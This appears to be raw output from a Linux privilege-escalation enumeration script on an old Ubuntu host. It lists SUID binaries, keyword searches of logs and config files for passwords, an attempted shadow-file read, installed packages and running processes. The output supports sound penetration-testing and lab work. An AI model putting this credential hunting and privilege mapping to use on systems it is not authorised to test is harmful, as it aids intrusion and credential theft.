drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/ru/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/ru/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/ru/cat5
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/cat4
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/zh_CN
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/zh_CN/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/zh_CN/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/zh_CN/cat5
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/cat5
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/pt
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/pt/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/pt/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/pt/cat5
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/pl
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/pl/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/pl/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/pl/cat5
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/pt_BR
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/pt_BR/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/pt_BR/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/pt_BR/cat5
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/fr
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/fr/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/fr/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/fr/cat5
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/hu
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/hu/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/hu/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/hu/cat5
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/it
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/it/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/it/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/it/cat5
drwxr-sr-x 3 man root 4096 Apr 12 2016 /var/cache/man/gl
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/gl/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/cat7
drwxr-sr-x 4 man root 4096 Apr 12 2016 /var/cache/man/sl
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/sl/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/sl/cat1
drwxr-sr-x 5 man root 4096 Apr 12 2016 /var/cache/man/sv
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/sv/cat8
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/sv/cat1
drwxr-sr-x 2 man root 4096 Mar 30 2016 /var/cache/man/sv/cat5
drwxrwsr-x 2 root mail 4096 Mar 30 2016 /var/mail
drwxrwsr-x 2 libuuid libuuid 4096 Mar 30 2016 /var/lib/libuuid
-rwsr-xr-x 1 root root 88760 Mar 29 2012 /bin/mount
-rwsr-xr-x 1 root root 39116 Nov 8 2011 /bin/ping6
-rwsr-xr-x 1 root root 26252 Mar 2 2012 /bin/fusermount
-rwsr-xr-x 1 root root 67720 Mar 29 2012 /bin/umount
-rwsr-xr-x 1 root root 34740 Nov 8 2011 /bin/ping
-rwsr-xr-x 1 root root 31116 Sep 12 2012 /bin/su
drwxr-s--- 2 root dip 4096 Mar 30 2016 /etc/chatscripts
drwxr-s--- 2 root dip 4096 Mar 30 2016 /etc/ppp/peers
[+] Logs containing keyword 'password'
[+] Config files containing keyword 'password'
/etc/iscsi/iscsid.conf:# To set a CHAP username and password for initiator
/etc/iscsi/iscsid.conf:#node.session.auth.password = password
/etc/iscsi/iscsid.conf:# To set a CHAP username and password for target(s)
/etc/iscsi/iscsid.conf:#node.session.auth.password_in = password_in
/etc/iscsi/iscsid.conf:# To set a discovery session CHAP username and password for the initiator
/etc/iscsi/iscsid.conf:#discovery.sendtargets.auth.password = password
/etc/iscsi/iscsid.conf:# To set a discovery session CHAP username and password for target(s)
/etc/iscsi/iscsid.conf:#discovery.sendtargets.auth.password_in = password_in
/etc/ssl/openssl.cnf:# input_password = secret
/etc/ssl/openssl.cnf:# output_password = secret
/etc/ssl/openssl.cnf:challengePassword = A challenge password
/etc/hdparm.conf:# --security-set-pass Set security password
/etc/hdparm.conf:# security_pass = password
/etc/hdparm.conf:# --user-master Select password to use
/etc/debconf.conf:# World-readable, and accepts everything but passwords.
/etc/debconf.conf:Reject-Type: password
/etc/debconf.conf:# Not world readable (the default), and accepts only passwords.
/etc/debconf.conf:Name: passwords
/etc/debconf.conf:Accept-Type: password
/etc/debconf.conf:Filename: /var/cache/debconf/passwords.dat
/etc/debconf.conf:# databases, one to hold passwords and one for everything else.
/etc/debconf.conf:Stack: config, passwords
/etc/debconf.conf:# A remote LDAP database. It is also read-only. The password is really
/etc/ltrace.conf:; pwd.h
[+] Shadow File (Privileged)
[*] ENUMERATING PROCESSES AND APPLICATIONS...
[+] Installed Packages
Status=Not/Inst/Conf-files/Unpacked/halF-conf/Half-inst/trig-aWait/Trig-pend
Err?=(none)/Reinst-required (Status,Err:
Name Version
accountsservice 0.6.15-2ubuntu9.7 and manipulate user account information
adduser 3.113ubuntu2 and remove users and groups
apparmor 2.7.102-0ubuntu3.9 parser utility for AppArmor
apt 0.8.16~exp12ubuntu10.16 package manager
apt-transport-https 0.8.16~exp12ubuntu10.16 download transport for APT
apt-utils 0.8.16~exp12ubuntu10.16 managment related utility programs
apt-xapian-index 0.44ubuntu5.1 and search tools for a Xapian index of Debian packages
aptitude 0.6.6-1ubuntu1.2 package manager (terminal interface only)
at 3.1.13-1ubuntu1 job execution and batch processing
base-files 6.5ubuntu6.7 base system miscellaneous files
base-passwd 3.5.24 base system master password and group files
bash 4.2-2ubuntu2.1 Bourne Again SHell
bash-completion 1:1.3-1ubuntu8.1 completion for the bash shell
bind9-host 1:9.8.1.dfsg.P1-4ubuntu0.8 of 'host' bundled with BIND 9.X
binutils 2.22-6ubuntu1.3 assembler, linker and binary utilities
bsdmainutils 8.2.3ubuntu1 of more utilities from FreeBSD
bsdutils 1:2.20.1-1ubuntu3 utilities from 4.4BSD-Lite
busybox-initramfs 1:1.18.5-1ubuntu4.1 shell setup for initramfs
busybox-static 1:1.18.5-1ubuntu4.1 rescue shell with tons of builtin utilities
bzip2 1.0.6-1 block-sorting file compressor - utilities
ca-certificates 20111211 CA certificates
chkrootkit 0.49-4ubuntu1.1 detector
command-not-found 0.2.46ubuntu6 installation of packages in interactive bash sessions
command-not-found-data 0.2.46ubuntu6 of data files for command-not-found.
console-setup 1.70ubuntu5 font and keymap setup program
coreutils 8.13-3ubuntu3.2 core utilities
cpio 2.11-7ubuntu3 cpio -- a program to manage archives of files
cpp 4:4.6.3-1ubuntu5 C preprocessor (cpp)
cpp-4.6 4.6.3-1ubuntu5 C preprocessor
cron 3.0pl1-120ubuntu4 scheduling daemon
dash 0.5.7-2ubuntu2 shell
dbus 1.4.18-1ubuntu1.4 interprocess messaging system (daemon and utilities)
debconf 1.5.42ubuntu1 configuration management system
debconf-i18n 1.5.42ubuntu1 internationalization support for debconf
debianutils 4.2.1ubuntu2 utilities specific to Debian
dictionaries-common 1.12.1ubuntu2 utilities for spelling dictionary tools
diffutils 1:3.2-1ubuntu1 comparison utilities
dmidecode 2.11-4 table decoder
dmsetup 2:1.02.48-4ubuntu7.4 Linux Kernel Device Mapper userspace library
dnsutils 1:9.8.1.dfsg.P1-4ubuntu0.8 provided with BIND
dosfstools 3.0.12-1ubuntu1.1 for making and checking MS-DOS FAT filesystems
dpkg 1.16.1.2ubuntu7.2 package management system
e2fslibs 1.42-1ubuntu2 file system libraries
e2fsprogs 1.42-1ubuntu2 file system utilities
ed 1.5-3 UNIX line editor
eject 2.1.5+deb1+cvs20081104-9 CDs and operates CD-Changers under Linux
file 5.09-2 file type using "magic" numbers
findutils 4.4.2-4ubuntu1 for finding files--find, xargs
friendly-recovery 0.2.25 recovery more user-friendly
ftp 0.17-25 file transfer client
fuse 2.8.6-2ubuntu2 in Userspace
gamin 0.1.10-4ubuntu0.1 and directory monitoring system
gcc 4:4.6.3-1ubuntu5 C compiler
gcc-4.6 4.6.3-1ubuntu5 C compiler
gcc-4.6-base 4.6.3-1ubuntu5 the GNU Compiler Collection (base package)
geoip-database 20111220-1 lookup command line tools that use the GeoIP library (country database)
gettext-base 0.18.1.1-5ubuntu3 Internationalization utilities for the base system
gir1.2-glib-2.0 1.32.0-1 data for GLib, GObject, Gio and GModule
gnupg 1.4.11-3ubuntu2.5 privacy guard - a free PGP replacement
gpgv 1.4.11-3ubuntu2.5 privacy guard - signature verification tool
grep 2.10-1 grep, egrep and fgrep
groff-base 1.21-7 troff text-formatting system (base system components)
grub-common 1.99-21ubuntu3.19 Unified Bootloader (common files)
grub-gfxpayload-lists 0.6 gfxpayload blacklist
grub-pc 1.99-21ubuntu3.19 Unified Bootloader, version 2 (PC/BIOS version)
grub-pc-bin 1.99-21ubuntu3.19 Unified Bootloader, version 2 (PC/BIOS binaries)
grub2-common 1.99-21ubuntu3.19 Unified Bootloader (common files for version 2)
gzip 1.4-1ubuntu2 compression utilities
hdparm 9.37-0ubuntu3.1 hard disk parameters for high performance
hostname 3.06ubuntu1 to set/show the host name or domain name
ifupdown 0.7~beta2ubuntu10 level tools to configure network interfaces
info 4.13a.dfsg.1-8ubuntu2 GNU Info documentation browser
initramfs-tools 0.99ubuntu13.4 for generating an initramfs
initramfs-tools-bin 0.99ubuntu13.4 used by initramfs-tools
initscripts 2.88dsf-13.10ubuntu11.1 for initializing and shutting down the system
insserv 1.14.0-2.1ubuntu2 to organize boot sequence using LSB init.d script dependencies
install-info 4.13a.dfsg.1-8ubuntu2 installed documentation in info format
installation-report 2.46ubuntu1 installation report
iproute 20111117-1ubuntu2.1 and traffic control tools
iptables 1.4.12-1ubuntu5 tools for packet filtering and NAT
iputils-ping 3:20101006-1ubuntu1 to test the reachability of network hosts
iputils-tracepath 3:20101006-1ubuntu1 to trace the network path to a remote host
irqbalance 0.56-1ubuntu4 to balance interrupts for SMP systems
isc-dhcp-client 4.1.ESV-R4-0ubuntu5.9 DHCP client
isc-dhcp-common 4.1.ESV-R4-0ubuntu5.9 files used by all the isc-dhcp* packages
iso-codes 3.31-1 language, territory, currency, script codes and their translations
kbd 1.15.2-3ubuntu4 console font and keytable utilities
keyboard-configuration 1.70ubuntu5 keyboard preferences
klibc-utils 1.5.25-1ubuntu2 utilities built with klibc for early boot
krb5-locales 1.10+dfsg~beta1-2ubuntu0.3 support for MIT Kerberos
language-pack-en 1:12.04+20140106 updates for language English
language-pack-en-base 1:12.04+20140106 for language English
language-pack-gnome-en 1:12.04+20140106 translation updates for language English
language-pack-gnome-en-base 1:12.04+20140106 translations for language English
language-selector-common 0.79.4 selector for Ubuntu
laptop-detect 0.13.7ubuntu2 to detect a laptop
less 444-1ubuntu1 program similar to more
libaccountsservice0 0.6.15-2ubuntu9.7 and manipulate user account information - shared libraries
libacl1 2.2.51-5ubuntu1 control list shared library
libapt-inst1.4 0.8.16~exp12ubuntu10.16 package format runtime library
libapt-pkg4.12 0.8.16~exp12ubuntu10.16 managment runtime library
libasn1-8-heimdal 1.6~git20120311.dfsg.1-2ubuntu0.1 Kerberos - ASN.1 library
libattr1 1:2.4.46-5ubuntu1 attribute shared library
libbind9-80 1:9.8.1.dfsg.P1-4ubuntu0.8 Shared Library used by BIND
libblkid1 2.20.1-1ubuntu3 device id library
libboost-iostreams1.46.1 1.46.1-7ubuntu3 Library
libbsd0 0.3.0-2 functions from BSD systems - shared library
libbz2-1.0 1.0.6-1 block-sorting file compressor library - runtime
libc-bin 2.15-0ubuntu10.13 GNU C Library: Binaries
libc-dev-bin 2.15-0ubuntu10.13 GNU C Library: Development binaries
libc6 2.15-0ubuntu10.13 GNU C Library: Shared libraries
libc6-dev 2.15-0ubuntu10.13 GNU C Library: Development Libraries and Header Files
libcap-ng0 0.6.6-1ubuntu1 alternate POSIX capabilities library
libclass-accessor-perl 0.34-1 module that automatically generates accessors
libclass-isa-perl 0.36-3 the search path for a class's ISA tree
libcomerr2 1.42-1ubuntu2 error description library
libcurl3-gnutls 7.22.0-3ubuntu4.7 file transfer library (GnuTLS)
libcwidget3 0.5.16-3.1ubuntu1 terminal interface library for C++ (runtime files)
libdb5.1 5.1.25-11build1 v5.1 Database Libraries [runtime]
libdbus-1-3 1.4.18-1ubuntu1.4 interprocess messaging system (library)
libdbus-glib-1-2 0.98-1ubuntu1.1 interprocess messaging system (GLib-based shared library)
libdevmapper1.02.1 2:1.02.48-4ubuntu7.4 Linux Kernel Device Mapper userspace library
libdns81 1:9.8.1.dfsg.P1-4ubuntu0.8 Shared Library used by BIND
libdrm-intel1 2.4.46-1ubuntu0.0.0.1 interface to intel-specific kernel DRM services -- runtime
libdrm-nouveau1a 2.4.46-1ubuntu0.0.0.1 interface to nouveau-specific kernel DRM services -- runtime
libdrm-radeon1 2.4.46-1ubuntu0.0.0.1 interface to radeon-specific kernel DRM services -- runtime
libdrm2 2.4.46-1ubuntu0.0.0.1 interface to kernel DRM services -- runtime
libedit2 2.11-20080614-3ubuntu2 editline and history libraries
libelf1 0.152-1ubuntu3 to read and write ELF files
libept1.4.12 1.0.6~exp1ubuntu1 library for managing Debian package information
libexpat1 2.0.1-7.2ubuntu1.1 parsing C library - runtime library
libffi6 3.0.11~rc1-5 Function Interface library runtime
libfreetype6 2.4.8-1ubuntu2.3 2 font engine, shared library files
libfribidi0 0.19.2-1 Implementation of the Unicode BiDi algorithm
libfuse2 2.8.6-2ubuntu2 in Userspace (library)
libgamin0 0.1.10-4ubuntu0.1 library for the gamin file and directory monitoring system
libgcc1 1:4.6.3-1ubuntu5 support library
libgcrypt11 1.5.0-3ubuntu0.2 Crypto library - runtime library
libgdbm3 1.8.3-10 dbm database routines (runtime version)
libgeoip1 1.4.8+dfsg-2 IP-to-country resolver library
libgirepository-1.0-1 1.32.0-1 for handling GObject introspection data (runtime library)
libglib2.0-0 2.32.4-0ubuntu1 library of C routines
libgmp10 2:5.0.2+dfsg-2ubuntu1 arithmetic library
libgnutls26 2.12.14-5ubuntu3.5 TLS library - runtime library
libgomp1 4.6.3-1ubuntu5 OpenMP (GOMP) support library
libgpg-error0 1.10-2ubuntu1 for common error values and messages in GnuPG components
libgssapi-krb5-2 1.10+dfsg~beta1-2ubuntu0.3 Kerberos runtime libraries - krb5 GSS-API Mechanism
libgssapi3-heimdal 1.6~git20120311.dfsg.1-2ubuntu0.1 Kerberos - GSSAPI support library
libhcrypto4-heimdal 1.6~git20120311.dfsg.1-2ubuntu0.1 Kerberos - crypto library
libheimbase1-heimdal 1.6~git20120311.dfsg.1-2ubuntu0.1 Kerberos - Base library
libheimntlm0-heimdal 1.6~git20120311.dfsg.1-2ubuntu0.1 Kerberos - NTLM support library
libhx509-5-heimdal 1.6~git20120311.dfsg.1-2ubuntu0.1 Kerberos - X509 support library
libidn11 1.23-2 Libidn library, implementation of IETF IDN specifications
libio-string-perl 1.08-2 IO::File interface for in-core strings
libisc83 1:9.8.1.dfsg.P1-4ubuntu0.8 Shared Library used by BIND
libisccc80 1:9.8.1.dfsg.P1-4ubuntu0.8 Channel Library used by BIND
libisccfg82 1:9.8.1.dfsg.P1-4ubuntu0.8 File Handling Library used by BIND
libk5crypto3 1.10+dfsg~beta1-2ubuntu0.3 Kerberos runtime libraries - Crypto Library
libkeyutils1 1.5.2-2 Key Management Utilities (library)
libklibc 1.5.25-1ubuntu2 libc subset for use with initramfs
libkrb5-26-heimdal 1.6~git20120311.dfsg.1-2ubuntu0.1 Kerberos - libraries
libkrb5-3 1.10+dfsg~beta1-2ubuntu0.3 Kerberos runtime libraries
libkrb5support0 1.10+dfsg~beta1-2ubuntu0.3 Kerberos runtime libraries - Support library
libldap-2.4-2 2.4.28-1.1ubuntu4.4 libraries
liblocale-gettext-perl 1.05-7build1 using libc functions for internationalization in Perl
liblockfile-bin 1.09-3ubuntu0.1 binaries for and cli utilities based on liblockfile
liblockfile1 1.09-3ubuntu0.1 locking library
liblwres80 1:9.8.1.dfsg.P1-4ubuntu0.8 Resolver Library used by BIND
liblzma5 5.1.1alpha+20110809-3 compression library
libmagic1 5.09-2 type determination library using "magic" numbers
libmount1 2.20.1-1ubuntu3 device id library
libmpc2 0.9-4 precision complex floating-point library
libmpfr4 3.1.0-3ubuntu2 precision floating-point computation
libncurses5 5.9-4 libraries for terminal handling
libncursesw5 5.9-4 libraries for terminal handling (wide character support)
libnewt0.52 0.52.11-2ubuntu10 Erik's Windowing Toolkit - text mode windowing with slang
libnfnetlink0 1.0.0-1 netlink library
libnih-dbus1 1.0.3-4ubuntu9.1 D-Bus Bindings Library
libnih1 1.0.3-4ubuntu9.1 Utility Library
libp11-kit0 0.12-2ubuntu1 for loading and coordinating access to PKCS#11 modules - runtime
libpam-modules 1.1.3-7ubuntu2 Authentication Modules for PAM
libpam-modules-bin 1.1.3-7ubuntu2 Authentication Modules for PAM - helper binaries
libpam-runtime 1.1.3-7ubuntu2 support for the PAM library
libpam0g 1.1.3-7ubuntu2 Authentication Modules library
libparse-debianchangelog-perl 1.2.0-1ubuntu1 Debian changelogs and output them in other formats
libparted0debian1 2.3-8ubuntu5.1 partition manipulator - shared library
libpcap0.8 1.1.1-10 interface for user-level packet capture
libpci3 1:3.1.8-2ubuntu6 PCI Utilities (shared library)
libpciaccess0 0.12.902-1ubuntu0.2 PCI access library for X
libpcre3 8.12-4 5 Compatible Regular Expression Library - runtime files
libpipeline1 1.2.1-1 manipulation library
libplymouth2 0.8.2-2ubuntu31.1 boot animation and logger - shared libraries
libpng12-0 1.2.46-3ubuntu4 library - runtime
libpolkit-gobject-1-0 0.104-1ubuntu1.1 Authorization API
libpopt0 1.16-3ubuntu1 for parsing cmdline parameters
libquadmath0 4.6.3-1ubuntu5 Quad-Precision Math Library
libreadline6 6.2-8 readline and history libraries, run-time libraries
libroken18-heimdal 1.6~git20120311.dfsg.1-2ubuntu0.1 Kerberos - roken support library
librtmp0 2.4~20110711.gitc28f1bab-1 for RTMP streams (shared library)
libsasl2-2 2.1.25.dfsg1-3ubuntu0.1 SASL - authentication abstraction library
libsasl2-modules 2.1.25.dfsg1-3ubuntu0.1 SASL - pluggable authentication modules
libselinux1 2.1.0-4.1ubuntu1 runtime shared libraries
libsigc++-2.0-0c2a 2.2.10-0ubuntu2 Signal Framework for C++ - runtime
libslang2 2.2.4-3ubuntu1 programming library - runtime version
libsqlite3-0 3.7.9-2ubuntu1.1 3 shared library
libss2 1.42-1ubuntu2 interface parsing library
libssl1.0.0 1.0.1-4ubuntu5.11 shared libraries
libstdc++6 4.6.3-1ubuntu5 Standard C++ Library v3
libsub-name-perl 0.05-1build2 for assigning a new name to referenced sub
libswitch-perl 2.16-2 statement for Perl
libtasn1-3 2.10-1ubuntu1.1 ASN.1 structures (runtime)
libterm-readkey-perl 2.30-4build3 perl module for simple terminal control
libterm-readline-perl-perl 1.0303-1 implementation of Readline libraries
libtext-charwidth-perl 0.04-7build1 display widths of characters on the terminal
libtext-iconv-perl 1.7-5 between character sets in Perl
libtext-wrapi18n-perl 0.06-7 substitute of Text::Wrap
libtimedate-perl 1.2000-1 of modules to manipulate date/time information
libtinfo5 5.9-4 low-level terminfo library for terminal handling
libudev0 175-0ubuntu9.4 library
libusb-0.1-4 2:0.1.12-20 USB programming library
libusb-1.0-0 2:1.0.9~rc3-2ubuntu1 USB programming library
libuuid1 2.20.1-1ubuntu3 Unique ID library
libwind0-heimdal 1.6~git20120311.dfsg.1-2ubuntu0.1 Kerberos - stringprep implementation
libwrap0 7.6.q-21 Venema's TCP wrappers library
libx11-6 2:1.4.99.1-0ubuntu2.2 client-side library
libx11-data 2:1.4.99.1-0ubuntu2.2 client-side library
libxapian22 1.2.8-1 engine library
libxau6 1:1.0.6-4 authorisation library
libxcb1 1.8.1-1ubuntu0.2 C Binding
libxdmcp6 1:1.1.0-4 Display Manager Control Protocol library
libxext6 2:1.3.0-3ubuntu0.1 miscellaneous extension library
libxml2 2.7.8.dfsg-5.1ubuntu4.6 XML library
libxmuu1 2:1.1.0-3 miscellaneous micro-utility library
lighttpd 1.4.28-2ubuntu4 fast webserver with minimal memory footprint
lighttpd-mod-webdav 1.4.28-2ubuntu4 module for lighttpd
linux-firmware 1.79.9 for Linux kernel drivers
linux-generic-lts-saucy 3.11.0.15.14 Linux kernel image and headers
linux-headers-3.11.0-15 3.11.0-15.25~precise1 files related to Linux kernel version 3.11.0
linux-headers-3.11.0-15-generic 3.11.0-15.25~precise1 kernel headers for version 3.11.0 on 32 bit x86 SMP
linux-headers-generic-lts-saucy 3.11.0.15.14 Linux kernel headers
linux-image-3.11.0-15-generic 3.11.0-15.25~precise1 kernel image for version 3.11.0 on 32 bit x86 SMP
linux-image-generic-lts-saucy 3.11.0.15.14 Linux kernel image
linux-libc-dev 3.2.0-101.141 Kernel Headers for development
locales 2.13+git20120306-3 files for locale support
lockfile-progs 0.1.16 for locking and unlocking files and mailboxes
login 1:4.1.4.2+svn3283-3ubuntu5.1 login tools
logrotate 3.7.8-6ubuntu5 rotation utility
lsb-base 4.0-0ubuntu20.3 Standard Base 4.0 init script functionality
lsb-release 4.0-0ubuntu20.3 Standard Base version reporting utility
lshw 02.15-2 about hardware configuration
lsof 4.81.dfsg.1-1build1 open files
ltrace 0.5.3-2.1ubuntu2 runtime library calls in dynamically linked programs
make 3.81-8.1ubuntu1.1 utility for Directing compilation.
makedev 2.3.1-89ubuntu2 device files in /dev
man-db 2.6.1-2ubuntu1 manual pager
manpages 3.35-0.1ubuntu1 pages about using a GNU/Linux system
manpages-dev 3.35-0.1ubuntu1 pages about using GNU/Linux for development
mawk 1.3.3-17 pattern scanning and text processing language
memtest86+ 4.20-1.1ubuntu1 real-mode memory tester
mime-support 3.51-1ubuntu1 files 'mime.types' & 'mailcap', and support programs
mlocate 0.23.1-1ubuntu2 find files on the filesystem based on their name
module-init-tools 3.16-1ubuntu2 for managing Linux kernel modules
mount 2.20.1-1ubuntu3 for mounting and manipulating filesystems
mountall 2.36.4 mounting tool
mtr-tiny 0.80-1ubuntu1 screen ncurses traceroute tool
multiarch-support 2.15-0ubuntu10.5 package to ensure multiarch compatibility
nano 2.2.6-1 friendly text editor inspired by Pico
ncurses-base 5.9-4 terminal type definitions
ncurses-bin 5.9-4 programs and man pages
net-tools 1.60-24.1ubuntu2 NET-3 networking toolkit
netbase 4.47ubuntu1 TCP/IP networking system
netcat 1.10-39 swiss army knife -- transitional package
netcat-openbsd 1.89-4ubuntu1 swiss army knife
netcat-traditional 1.10-39 swiss army knife
ntfs-3g 1:2012.1.15AR.1-1ubuntu1.2 NTFS driver for FUSE
ntpdate 1:4.2.6.p3+dfsg-1ubuntu3.1 for setting system time from NTP servers
openssh-client 1:5.9p1-5ubuntu1.8 shell (SSH) client, for secure access to remote machines
openssh-server 1:5.9p1-5ubuntu1.8 shell (SSH) server, for secure access from remote machines
openssl 1.0.1-4ubuntu5.11 Socket Layer (SSL) binary and related cryptographic tools
os-prober 1.51ubuntu3 to detect other OSes on a set of drives
parted 2.3-8ubuntu5.1 partition manipulator
passwd 1:4.1.4.2+svn3283-3ubuntu5.1 and administer password and group data
pciutils 1:3.1.8-2ubuntu6 PCI Utilities
perl 5.14.2-6ubuntu2.3 Wall's Practical Extraction and Report Language
perl-base 5.14.2-6ubuntu2.3 Perl system
perl-modules 5.14.2-6ubuntu2.3 Perl modules
php5-cgi 5.3.10-1ubuntu3.21 HTML-embedded scripting language (CGI binary)
php5-common 5.3.10-1ubuntu3.21 files for packages built from the php5 source
plymouth 0.8.2-2ubuntu31.1 boot animation and logger - main package
plymouth-theme-ubuntu-text 0.8.2-2ubuntu31.1 boot animation and logger - ubuntu-logo theme
popularity-contest 1.53ubuntu1 for your favourite packages automatically
powermgmt-base 1.31 utils and configs for power management
ppp 2.4.5-5ubuntu1 Protocol (PPP) - daemon
pppconfig 2.3.18+nmu3ubuntu1 text menu based utility for configuring ppp
pppoeconf 1.20ubuntu1 PPPoE/ADSL connections
procps 1:3.2.8-11ubuntu6.3 file system utilities
psmisc 22.15-2ubuntu1.1 that use the proc file system
python 2.7.3-0ubuntu2.2 high-level object-oriented language (default version)
python-apt 0.8.3ubuntu7.2 interface to libapt-pkg
python-apt-common 0.8.3ubuntu7.2 interface to libapt-pkg (locales)
python-chardet 2.0.1-2build1 character encoding detector
python-dbus 1.0.0-1ubuntu1 interprocess messaging system (Python interface)
python-dbus-dev 1.0.0-1ubuntu1 loop integration development files for python-dbus
python-debian 0.1.21ubuntu1 modules to work with Debian-related data formats
python-gdbm 2.7.3-1ubuntu1 dbm database support for Python
python-gi 3.2.2-1~precise 2.x bindings for gobject-introspection libraries
python-gnupginterface 0.3.2-9.1ubuntu3 interface to GnuPG (GPG)
python-minimal 2.7.3-0ubuntu2.2 subset of the Python language (default version)
python-xapian 1.2.8-1 search engine interface for Python
python2.7 2.7.3-0ubuntu3.4 high-level object-oriented language (version 2.7)
python2.7-minimal 2.7.3-0ubuntu3.4 subset of the Python language (version 2.7)
readline-common 6.2-8 readline and history libraries, common files
resolvconf 1.63ubuntu16 server information handler
rsync 3.0.9-1ubuntu1 versatile, remote (and local) file-copying tool
rsyslog 5.8.6-1ubuntu8.6 system and kernel logging daemon
sed 4.2.1-9 GNU sed stream editor
sensible-utils 0.0.6ubuntu2 for sensible alternative selection
sgml-base 1.26+nmu1ubuntu1 infrastructure and SGML catalog file support
spawn-fcgi 1.6.3-1 fastcgi process spawner
ssh-import-id 2.10-0ubuntu1 retrieve an SSH public key and install it locally
strace 4.5.20-2.3ubuntu1 system call tracer
sudo 1.8.3p1-1ubuntu3.4 limited super user privileges to specific users
sysv-rc 2.88dsf-13.10ubuntu11.1 runlevel change mechanism
sysvinit-utils 2.88dsf-13.10ubuntu11.1 utilities
tar 1.26-4ubuntu1 version of the tar archiving utility
tasksel 2.88ubuntu9 for selecting tasks for installation on Debian systems
tasksel-data 2.88ubuntu9 tasks used for installation of Debian systems
tcpd 7.6.q-21 Venema's TCP wrapper utilities
tcpdump 4.2.1-1ubuntu2 network traffic analyzer
telnet 0.17-36build1 telnet client
time 1.7-23.1 GNU time program for measuring cpu resource usage
tzdata 2013g-0ubuntu0.12.04 zone and daylight-saving time data
ubuntu-keyring 2011.11.21.1 keys of the Ubuntu archive
ubuntu-minimal 1.267.1 core of Ubuntu
ubuntu-standard 1.267.1 Ubuntu standard system
ucf 3.0025+nmu2ubuntu1 Configuration File: preserve user changes to config files.
udev 175-0ubuntu9.4 device node and kernel event manager
ufw 0.31.1-1 for managing a Netfilter firewall
update-manager-core 1:0.156.14.11 release upgrades
upstart 1.5-0ubuntu7.2 init daemon
ureadahead 0.100.0-12 required files in advance
usbutils 1:005-1 USB utilities
util-linux 2.20.1-1ubuntu3 system utilities
uuid-runtime 2.20.1-1ubuntu3 components for the Universally Unique ID library
vim-common 2:7.3.429-2ubuntu2.1 IMproved - Common files
vim-tiny 2:7.3.429-2ubuntu2.1 IMproved - enhanced vi editor - compact version
wamerican 7.1-1 English dictionary words for /usr/share/dict
wbritish 7.1-1 English dictionary words for /usr/share/dict
wget 1.13.4-2ubuntu1 files from the web
whiptail 0.52.11-2ubuntu10 user-friendly dialog boxes from shell scripts
xauth 1:1.0.6-1 authentication utility
xkb-data 2.5-1ubuntu1.3 Keyboard Extension (XKB) configuration data
xml-core 0.13 infrastructure and XML catalog file support
xz-lzma 5.1.1alpha+20110809-3 compression utilities - compatibility commands
xz-utils 5.1.1alpha+20110809-3 compression utilities
zlib1g 1:1.2.3.4.dfsg-3ubuntu4 library - runtime
[+] Current processes
USER PID START TIME COMMAND
root 1 08:12 0:01 /sbin/init
root 2 08:12 0:00 [kthreadd]
root 3 08:12 0:36 [ksoftirqd/0]
root 5 08:12 0:00 [kworker/0:0H]
root 7 08:12 0:00 [migration/0]
root 8 08:12 0:00 [rcu_bh]
root 9 08:12 0:51 [rcu_sched]
root 10 08:12 0:03 [watchdog/0]
root 11 08:12 0:00 [khelper]
root 12 08:12 0:00 [kdevtmpfs]
root 13 08:12 0:00 [netns]
root 14 08:12 0:00 [writeback]
root 15 08:12 0:00 [kintegrityd]
root 16 08:12 0:00 [bioset]
root 17 08:12 0:00 [kworker/u3:0]
root 18 08:12 0:00 [kblockd]
root 19 08:12 0:00 [ata_sff]
root 20 08:12 0:00 [khubd]
root 21 08:12 0:00 [md]
root 22 08:12 0:00 [devfreq_wq]
root 23 08:12 1:03 [kworker/0:1]
root 25 08:12 0:00 [khungtaskd]
root 26 08:12 0:00 [kswapd0]
root 27 08:12 0:00 [ksmd]
root 28 08:12 0:00 [khugepaged]
root 29 08:12 0:00 [fsnotify_mark]
root 30 08:12 0:00 [ecryptfs-kthrea]
root 31 08:12 0:00 [crypto]
root 43 08:12 0:00 [kthrotld]
root 47 08:12 0:00 [dm_bufio_cache]
